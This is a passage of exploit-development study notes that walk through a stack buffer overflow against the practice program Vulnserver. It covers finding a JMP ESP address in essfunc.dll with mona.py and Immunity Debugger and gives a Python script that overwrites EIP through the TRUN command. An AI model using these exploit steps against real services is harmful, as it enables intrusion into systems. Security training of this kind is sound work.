






Find the right module for JMP ESP
Now we need to find .dll or something similar inside a service that has not memory protections(ASLR, DEP, ...)
•
Immunity Debugger: To find
JMP ESP (or CALL ESP) in the application we can simply disassemble it(with Immunity Debugger or IDA) and then search for the instruction with CTRL+F.
If we want to search the command in all the modules and libraries loaded by the program we have to select
Search for → All Commands in all modules ◇ or with mona.py (include the bad char found in the chapter above):
!mona jmp -r esp -cpb "\x00...."
-cpb is used to ensure that the address of the instruction doesn't contain the bad chars \x00
and the others that we have found in the chapter before.
•
search modules with JMP ESP:
Link mona:
https://raw.githubusercontent.com/corelan/mona/master/mona.py Download mona.py and place inside: “C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands”
1) With the service running run:
 We need to find a module with most of the protections disabled. In this example is
essfunc.dll 2) Now we need to search a JMP ESP. To convert "JMP ESP" in hexadecimal we can use nasm_shell.
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
JMP ESP
hexadecimal equivalent of the JMP ESP instruction which is \xFF\xE4
3) Run in Immunity:
essfunc.dll is the module found before without memory protection
!mona find -s "\xFF\xE4" -m essfunc.dll
Now we need to use one of these address in the EIP that will jump to the ESP.
This address cannot contain any of the bad characters.
Copy an address(example: 625011AF) that point to JMP ESP command and add it to the payload in hexadecimal and in a swapped order (\xAF\x11\x50\x62)
4) Change the value of
◇ jmp_address → with the value found at point 3
◇ eip_address_location → with the value found in the chapter “Find the Offset”
◇ s.connect → with address and port of the service
◇ s.send → with the value of the command of the service
#!/usr/bin/python
import socket
import sys
from time import sleep
jmp_address = '\xAF\x11\x50\x62'
eip_address_location = 2003
buffer = 'A' * eip_address_location + jmp_address
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.settimeout(2)
s.connect(('192.168.1.118',9999))
s.recv(1024)
print '[*] Sending buffer.'
s.send('TRUN /.:/' + buffer + '\r\n') #target the TRUN command
s.close()
except:
print '[*] Could not connect to target, exiting.'
sys.exit()
5) In Immunity use “Go To address in Disassembler”
and search for the address found at point 3
  and set a breakpoint on it with F2
 In this way we can check if we overwrite the
EIP with this address
6) Run the script of point 4
Check on Immunity if it worked
 YES! worked since we can see the jmp_address in the
EIP